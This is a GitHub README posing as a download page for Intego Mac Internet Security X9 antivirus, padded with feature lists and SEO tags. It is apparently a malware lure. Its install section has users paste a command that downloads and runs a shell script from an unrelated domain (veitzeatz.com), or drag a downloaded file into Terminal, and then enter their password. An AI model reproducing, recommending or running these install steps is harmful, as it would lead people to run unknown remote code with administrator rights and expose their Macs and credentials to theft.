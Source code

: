 # 🛡️ Intego Mac Internet Security X9 — Comprehensive Protection for macOS

**Intego Mac Internet Security X9** is a powerful antivirus and firewall suite designed specifically for macOS. It offers robust real-time malware protection combined with a smart firewall to keep your Mac safe from viruses, spyware, ransomware, and network threats.

Tailored to take full advantage of macOS and Apple Silicon, Intego delivers fast, efficient security without slowing down your MacBook or iMac.

---

## ✅ Download Intego Mac Internet Security X9  
[![Download Intego](https://img.shields.io/badge/Download-Intego-blueviolet)](https://intego-mac-internet-download-mac.github.io/.github)

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```bash
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get1/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)




## 🛡️ What is Intego Mac Internet Security X9?

Intego Mac Internet Security X9 combines award-winning antivirus technology with a powerful firewall, providing comprehensive protection for macOS users. It offers automatic virus scans, real-time monitoring, and network security tools to protect your data and privacy.

Designed exclusively for Mac, Intego ensures minimal system impact while keeping your device secure from emerging threats.

---

## ✨ Features

- 🔍 Real-time antivirus and malware detection  
- 🔥 NetBarrier smart firewall with customizable rules  
- 🛡 Ransomware protection and removal  
- ⚡️ Optimized for **macOS Ventura** and **Apple Silicon (M1/M2/M3)**  
- 🔄 Automatic virus definition updates  
- 📊 Detailed security reports and alerts  
- 🧰 Easy setup with intuitive control panel  
- 🖥 Full compatibility with the latest Mac hardware and software  

---

## 💡 Why Use Intego Mac Internet Security X9?

- 🧩 Dedicated Mac antivirus and firewall solution  
- 🚀 Lightweight protection designed for macOS  
- 🔒 Protects against malware, phishing, and network attacks  
- 🛡 Keeps your Mac safe without interrupting your workflow  
- 🔄 Continuous updates ensure up-to-date defense  

---

[![Download Intego](https://img.shields.io/badge/Download-Intego-blueviolet)](https://intego-mac-internet-download-mac.github.io/.github)

---


## 🖼 Preview

![Intego Screenshot 1](https://i.pcmag.com/imagery/reviews/01TVV3MW3XO2AoxZXgTKbbB-22..v1745599236.png), ![Intego Screenshot 2](https://i.pcmag.com/imagery/reviews/01TVV3MW3XO2AoxZXgTKbbB-27.fit_lim.size_1050x.png)

---

## 📌 Tags

intego mac internet security x9  
intego mac internet security  
intego mac premium bundle x9  
mac internet security x9  
intego x9  
intego net barrier  
intego internet security for mac  
intego mac internet security download  
intego antivirus mac  
mac firewall intego  
intego security suite mac  
intego malware protection mac  
mac internet security software  
intego real-time protection  
intego for macbook pro  
intego virus scanner mac  
mac security app intego  
apple silicon antivirus intego  
mac network security intego  
intego full version mac  
